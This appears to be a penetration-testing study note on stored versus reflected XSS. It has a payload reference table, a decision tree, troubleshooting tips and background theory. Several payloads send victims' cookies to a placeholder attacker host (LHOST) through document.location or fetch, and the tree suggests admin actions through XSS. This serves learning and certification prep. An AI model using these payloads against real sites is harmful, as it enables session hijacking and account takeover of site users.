

---
tags:
  - phase/exploitation
  - web
  - xss
---

# Stored vs Reflected XSS Theory

> [!tip] Quick Reference — XSS
> | Type | Payload |
> |------|---------|
> | Basic test | `<script>alert(1)</script>` |
> | Image onerror | `` |
> | SVG | `<svg onload=alert(1)>` |
> | Cookie steal | `<script>document.location='http://<LHOST>/?c='+document.cookie</script>` |
> | Attribute inject | `" onmouseover="alert(1)` |
> | Filter bypass | `<ScRiPt>alert(1)</ScRiPt>` |

## Decision Tree

```
User input reflected in page?
├── Test basic: <script>alert(1)</script>
│   ├── Popup appears → Stored or Reflected XSS
│   └── No popup → check page source for output
│       ├── Output in attribute → " onmouseover="alert(1)
│       ├── Output in JS context → ';alert(1);//
│       └── Filtered → try alternatives (img, svg, uppercase, encoding)
│
├── Stored XSS (persists for other users)?
│   └── Higher impact — can target admin sessions
│       ├── Cookie theft (if no HttpOnly)
│       │   └── <script>fetch('http://<LHOST>/?c='+btoa(document.cookie))</script>
│       └── Admin action via CSRF + XSS
│           └── Craft JS to perform action as admin (create user, change password)
│
└── Reflected XSS?
    └── Needs victim to click URL — less useful for OSCP unless specifically required
```

## Visual Flow



> [!success] What success looks like
> Your injected JavaScript runs in the victim's browser under their session — a test `alert(1)` box pops, or for Stored XSS the payload fires for every user who loads the page (including an admin), enabling session hijacking or actions on their behalf.

> [!danger] Common errors
> - Payload shown as literal text on the page → the output is HTML-encoded; you need to break out of the current tag/attribute context or pick a different injection point. See [[🔣 Encoding Reference]].
> - Cookie-theft payload returns nothing → the cookie has the `HttpOnly` flag, so JavaScript cannot read it; pivot to an action-based payload (e.g. create an admin user) instead.
> - Reflected payload "works" for you but not the target → reflected XSS only affects whoever opens the crafted URL; for broad impact you need Stored XSS.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **Reflected XSS** bounces straight back from a single request/link and only affects that one visitor. **Stored XSS** is saved on the server (a comment, a logged User-Agent) and runs for everyone who later views it — that is why it is the higher-impact bug for hitting an admin.

## Resources
- [HackTricks — XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayloadsAllTheThings — XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Hunter](https://xsshunter.trufflesecurity.com) — blind XSS callbacks


XSS vulnerabilities can be grouped into two major classes:

Stored ->
[https://en.wikipedia.org/wiki/Cross-site_scripting#Persistent_(or_stored)](https://en.wikipedia.org/wiki/Cross-site_scripting#Persistent_(or_stored))
Reflected ->
[https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent_(reflected](https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent_(reflected)
[)](https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent_(reflected))
Stored XSS attacks, also known as Persistent XSS, occur when the exploit payload is stored in a database or otherwise cached by a server. The web application then retrieves this payload and displays it to anyone who visits a vulnerable page. A single Stored XSS vulnerability can therefore attack all site users. Stored XSS vulnerabilities often exist in forum software, especially in comment sections, in product reviews, or wherever user content can be stored and reviewed later.

Reflected XSS attacks usually include the payload in a crafted request or link. The web application takes this value and places it into the page content. This XSS variant only attacks the person submitting the request or visiting the link. Reflected XSS vulnerabilities often occur in search fields and results, as well as anywhere user input is included in error messages.

Either of these two vulnerability variants can manifest as client- (browser) or server-side; they can also be DOM-based.

DOM-based XSS takes place solely within the page's Document Object Model (DOM). While we won't cover too much detail for now, we should know that browsers parse a page's HTML content and then generate an internal DOM representation. This type of XSS occurs when a page's DOM is modified with user-controlled values. DOM-based XSS can be stored or reflected; the key distinction is that DOM-based XSS attacks occur when a browser parses the page's content and inserted JavaScript is executed.

No matter how the XSS payload is delivered and executed, the injected scripts run under the context of the user visiting the affected page. This means that the user's browser, not the web application, executes the XSS payload. These attacks can be nevertheless significant, with impacts including session hijacking, forced redirection to malicious pages, execution of local applications as that user, or even trojanized web applications. In the following sections, we will explore some of these attacks.

---
%% graph-links %%
## Related
- [[Identifying XSS Vulnerabilities]]
- [[Basic XSS]]
- [[JavaScript Refresher]]

> [!info] Navigation
> Section: [[Web Applications/Cross-Site Scripting/_index|Cross-Site Scripting]] · Home: [[🏠 Home]]

